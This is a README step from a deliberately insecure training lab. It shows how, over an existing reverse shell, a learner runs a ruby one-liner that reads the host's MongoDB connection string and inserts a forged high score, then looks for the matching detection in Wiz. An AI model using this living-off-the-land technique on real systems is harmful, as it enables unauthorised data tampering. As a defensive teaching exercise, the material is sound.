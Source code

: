 # 🔥 Vulnerable Labs: Updating High Scores!
*A deliberately insecure application for security education and demos*

---

## 💀 About the Challenge

In this exercise you'll learn how to construct ruby code to update high scores in the Mongo Database.

In situations where there are constraints on the ability to install additional tools (such as applicaton whitelisting) attackers 
pivot to Living Off The Land (LOTL) techniques. In this case you'll execute your own ruby code to update the MongoDB with a new high score.

This could extend to other situations, like interacting with other non-public resources that are accessible from the compromised host 
e.g., on-premises resources over a VPN, Direct Connect, or Express Route. 



### 🎯 Your Mission

1. Ensure your reverse shell is still active. You can re-run the reverse shell commands from [2-Reverse-Shell.md](2-Reverse-Shell.md) if needed.
2. On your laptop, open a text editor / notepad and open the file [webserver.rb](../web/webserver.rb).
3. Copy from line 3:
```ruby 
require 'mongo'; 
```
4. Copy from line 25:
```ruby 
client = Mongo::Client.new(ENV['MONGODB_CONN']);
```
5. Copy from line 26:
```ruby 
db = client.use('game_db');
```
6. Copy from line 27:
```ruby
scores_collection = db[:player_scores];
```
7. Append the following (change the name if you like):
```ruby
scores_collection.insert_one({\"player\":\"Alice\",\"score\":1000});
```
8. Prepend the start of the command with:
```ruby
ruby -e "
```
9. Append the following to the end of the command:
```ruby
"
```
10. Ensure your final command looks like:
```ruby
ruby -e "require 'mongo'; client = Mongo::Client.new(ENV['MONGODB_CONN']); db = client.use('game_db'); scores_collection = db[:player_scores];  scores_collection.insert_one({\"player\":\"Alice\",\"score\":1000}); "
```

11. Check the reverse shell is still active and run the command:
```bash
ruby -e "require 'mongo'; client = Mongo::Client.new(ENV['MONGODB_CONN']); db = client.use('game_db'); scores_collection = db[:player_scores]; scores_collection.insert_one({\"player\":\"Alice\",\"score\":1000}); "
```
12. A successful execution will return a result similar to:
```bash
<insert_one({\"player\":\"Alice\",\"score\":1000}) 
```
13. Browse to the webserver_IP and check your high score. 

Congratulations, you've completed this challenge. Can you now find the corresponding detection in Wiz? How long did it take to appear in the console?

### 💥 Hints & Tips

- We need to put a semicolon ; after each command. The semicolon is the equivalent to a linebreak when compiled and executed by the ruby interpreter. 